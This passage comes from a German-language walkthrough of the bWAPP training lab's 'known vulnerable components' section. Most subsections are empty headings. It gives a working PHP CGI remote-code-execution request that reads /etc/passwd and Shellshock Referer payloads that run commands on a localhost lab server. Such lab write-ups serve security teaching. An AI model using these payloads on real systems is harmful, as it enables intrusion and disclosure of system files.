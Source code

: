 ~~~
</body></html>
~~~


---

### // A9 - Using Known Vulnerable Components //
---
##### Buffer Overflow (Local)
---
##### Buffer Overflow (Remote)
---
##### Drupal SQL Injection (Drupageddon)
---
##### Heartbleed Vulnerability
---
##### PHP CGI Remote Code Execution
~~~
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=2; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
~~~
Hiermit kann der Inhalt ausgegeben werden:
~~~
http://localhost:8083/bWAPP/admin/phpinfo.php?-s
~~~

---
##### Shellshock Vulnerability (CGI)
Folgende Anfragen sollten modifiziert werden:
~~~
/bWAPP/cgi-bin/shellshock.sh
~~~

~~~
Referer: () { nothing;}; /bin/touch /tmp/malicious
~~~

~~~
Referer: () { nothing;}; /bin/touch /etc/passwd
~~~


---
##### SQLiteManager Local File Inclusion
---
##### SQLiteManager PHP Code Injection
---
##### SQLiteManager XSS
